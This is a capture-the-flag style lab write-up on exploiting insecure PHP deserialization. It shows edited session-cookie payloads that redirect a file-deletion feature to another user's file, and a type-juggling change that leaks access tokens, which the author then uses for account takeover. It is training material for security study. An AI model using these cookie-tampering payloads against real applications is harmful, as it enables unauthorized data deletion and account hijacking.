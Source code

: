 # Lab: Using application functionality to exploit insecure deserialization

 This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

You also have access to a backup account: gregg:rosebud

# Step 1 login to both accounts and inspect the session cookies

## wiener:

![image](https://user-images.githubusercontent.com/83407557/213541898-6dc8793e-a684-4e14-b61b-c6f2fa975b72.png)

**decoded session cookie**
```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"m53316fdyacd7p05an3d0fjtik2qa2ge";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

## gregg

![image](https://user-images.githubusercontent.com/83407557/213542102-ebc1bcec-f6ce-4b16-9ba7-e39d9a9631eb.png)


**decoded session cookie**
```php
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"m5f1hxr02n3901bj8tw7lvxufyc7g3v2";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```


# Step 2 breaking down the cookies


The cookies are an object with a class that is 4-characters long called "User" `O:4:"User"` this class has three attributes:

1. a key of username with the value of the current username
2. a key of access_token with the value of current acces_token
3. a key of avatar_link with the value of the directory where the avatar is stored

# Step 3 Upload a new avatar to the gregg account and see how the cookie changes:

I change greggs avatar to a .png of a fruit:

![image](https://user-images.githubusercontent.com/83407557/213543372-d0af6ccd-5bd4-487d-89bf-01c132819c72.png)

I see that the avatar link stays the same:

![image](https://user-images.githubusercontent.com/83407557/213544362-54485173-861d-4048-aa6c-3e0854cff808.png)

# Step 4 Modify the session cookie to target the file I need to delete:

First I need to get to find the length of the string I want to use

Note in the cookie the value is 18:

```php
s:18:"users/gregg/avatar"
```
I can verify this with python:

```bash
└─$ python -c 'print(len("users/gregg/avatar"))'
18
```
Next I need to find the length of the target string:

```bash
└─$ python -c 'print(len("users/carlos/morale.txt"))'
23
```

Now I can modify the session cookie to target this instead:

```php
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"m5f1hxr02n3901bj8tw7lvxufyc7g3v2";s:11:"avatar_link";s:23:"users/carlos/morale.txt";}
```

# Step 5 delete gregg account, with the modified cookie:

I intercept the request to delete the account:

![image](https://user-images.githubusercontent.com/83407557/213545442-9e5c1678-97e5-4cfb-a29f-a6fc27926e25.png)


And modify the cookie:



![image](https://user-images.githubusercontent.com/83407557/213545599-ec63a3e5-7c44-4eda-b735-a4620f18ef0a.png)

This deleted the gregg account, but didn't solve the lab.

# Step 6 see if I can get to the carlos' my-account by changing data-type

This time, I take the cookie for the wiener session:

```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"m53316fdyacd7p05an3d0fjtik2qa2ge";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

and see if I can get to the carlos account by changing the data-type of the access_token:

```php
O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";i:0;s:11:"avatar_link";s:19:"users/carlos/avatar";}
```

This causes an error that leaks all the access tokens:

![image](https://user-images.githubusercontent.com/83407557/213546865-1efe1067-148d-42ba-a2e5-1c35010720c4.png)

so now I think I have carlos' access token:

```php
$access_tokens = [
o28hwm9afnj2mvpgofvluzyqhuz3ijzq, 
m5f1hxr02n3901bj8tw7lvxufyc7g3v2, 
m53316fdyacd7p05an3d0fjtik2qa2ge
]
```
Again, I need to get the length:

```bash
└─$ python -c 'print(len("o28hwm9afnj2mvpgofvluzyqhuz3ijzq"))'
32
```

Now I edit the cookie again:

```php
O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"o28hwm9afnj2mvpgofvluzyqhuz3ijzq";s:11:"avatar_link";s:19:"users/carlos/avatar";}
```

And modify the request for my-account:

![image](https://user-images.githubusercontent.com/83407557/213548060-7c0b36e7-6b1c-4d84-94ed-7a8634180aea.png)


And find that I can get into carlos' account:

![image](https://user-images.githubusercontent.com/83407557/213548167-f6abe5b0-cb50-4013-8d6c-68d68485a429.png)

# Step 7 update cookie with access_token and target file:

![image](https://user-images.githubusercontent.com/83407557/213548728-5c1f16c7-eeae-4dce-944d-c13f2a5a49fc.png)

And get a new error:

![image](https://user-images.githubusercontent.com/83407557/213549023-e8514a53-95f6-4b98-869e-9fe7ad1a20a6.png)

So I guess I can't delete the carlos account, I will instead delete wiener but with the carlos access token:

![image](https://user-images.githubusercontent.com/83407557/213549614-1a2c1b9a-1285-4ae0-aa6c-6f01e87f6c43.png)

Then I realized that I was foolishly trying to delete a file in the wrong directory:

![image](https://user-images.githubusercontent.com/83407557/213550310-8b2162a9-7768-4ae3-b952-083793d2a447.png)

Which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/213550388-9b1a3c35-71cb-4c79-8cdd-e3b950e70f51.png)

Even though I made several mistakes, I feel like I gained some nice insights via the error messages, and got into an account that I wasn't even meant to. Happy hacking ; P
